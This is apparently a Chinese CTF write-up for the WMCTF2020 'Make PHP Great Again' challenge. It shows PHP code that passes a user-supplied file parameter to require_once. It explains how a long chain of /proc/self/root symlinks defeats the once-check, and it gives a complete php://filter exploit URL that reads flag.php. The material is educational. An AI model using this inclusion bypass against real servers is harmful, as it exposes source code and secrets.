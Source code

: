 ```yaml
---
title: '[WMCTF2020]Make PHP Great Again'
date: 2024-07-16 20:04:51
tags: php特性
categories: 刷题笔记
---
```


## [WMCTF2020]Make PHP Great Again（require_once特性）

打开页面，进行代码审计

```
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

我们要了解什么是require_once

`require_once` 表达式和 [require](https://www.php.net/manual/zh/function.require.php) 表达式完全相同，唯一区别是 PHP 会检查该文件是否已经被包含过，如果是则不会再次包含。

由于 require_once 包含的软链接层数较多时 once 的 hash 匹配会直接失效造成重复包含。

<!--more-->

由于已经包含过一次了，接下来就是绕过once再包含一次

`/proc/self/`是指向当前进程的`/proc/pid/`，而`/proc/self/root`是指向`/`的软连接，所以让软连接层数变多即可造成重复包含：

```
http://a4b822a9-e181-4395-b9be-014a4acc375e.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```

得到base64编码

![image-20240718193134577](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407181931690.png)

解码得到flag
